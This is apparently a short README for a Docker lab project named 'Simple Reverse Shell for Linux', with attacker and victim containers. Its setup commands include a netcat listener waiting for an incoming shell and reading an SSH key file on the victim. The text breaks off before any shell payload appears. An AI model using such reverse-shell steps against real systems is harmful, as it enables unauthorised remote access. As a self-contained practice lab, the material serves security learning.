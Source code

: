 # SRSFL
Simple Reverse Shell for Linux
```console
docker-compose up --build
docker exec -it attacker_container /bin/bash
    - nc -lvp 1234
docker exec -it victim_container /bin/bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' attacker_container
cat /root/.ssh/id_rsa.pub